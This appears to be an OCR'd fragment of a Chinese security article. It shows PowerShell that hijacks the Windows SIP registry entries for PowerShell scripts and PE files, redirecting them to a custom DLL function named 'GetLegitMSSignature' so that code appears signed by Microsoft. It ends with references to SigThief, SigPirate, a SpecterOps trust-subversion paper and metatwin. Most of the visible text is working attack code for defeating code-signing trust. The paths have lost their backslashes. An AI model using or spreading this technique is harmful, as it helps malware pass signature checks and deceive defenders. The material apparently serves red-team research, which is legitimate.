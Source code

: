 ```
`{`
        $GetCertFunc = 'HKLM:SOFTWAREMicrosoftCryptography' +'OIDEncodingType 0CryptSIPDllGetSignedDataMsg'
 
        # PowerShell SIP Guid
 
        $PSIPGuid = '`{`603BCC1F-4B59-4E08-B724-D2C6297EF351`}`'
 
        $PEGetMSCert = Get-Item -Path "$GetCertFunc$PSIPGuid"
 
        $NewDll = 'C:UsersUserDesktopSignature SigningBinariesMySIP.dll'
        $NewFuncName = 'GetLegitMSSignature'
        
        $PEGetMSCert | Set-ItemProperty -Name Dll -Value $NewDll
        $PEGetMSCert | Set-ItemProperty -Name FuncName -Value $NewFuncName
`}`
 
# Sign Portable Executables with a Microsoft Certificate
 
function SignExe
`{`
        $GetCertFunc = 'HKLM:SOFTWAREMicrosoftCryptography' +'OIDEncodingType 0CryptSIPDllGetSignedDataMsg'
 
        # PE SIP Guid
 
        $PESIPGuid = '`{`C689AAB8-8E78-11D0-8C47-00C04FC295EE`}`'
 
        $PEGetMSCert = Get-Item -Path "$GetCertFunc$PESIPGuid"
 
        $NewDll = 'C:UsersUserDesktopSignature SigningBinariesMySIP.dll'
        $NewFuncName = 'GetLegitMSSignature'
        
        $PEGetMSCert | Set-ItemProperty -Name Dll -Value $NewDll
        $PEGetMSCert | Set-ItemProperty -Name FuncName -Value $NewFuncName
```



**参考**

1.[https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)

2.[](https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate)[https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate](https://github.com/xorrior/Random-CSharpTools/tree/master/SigPirate)

3.[](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)[https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

4.[](https://github.com/minisllc/metatwin)[https://github.com/minisllc/metatwin](https://github.com/minisllc/metatwin)
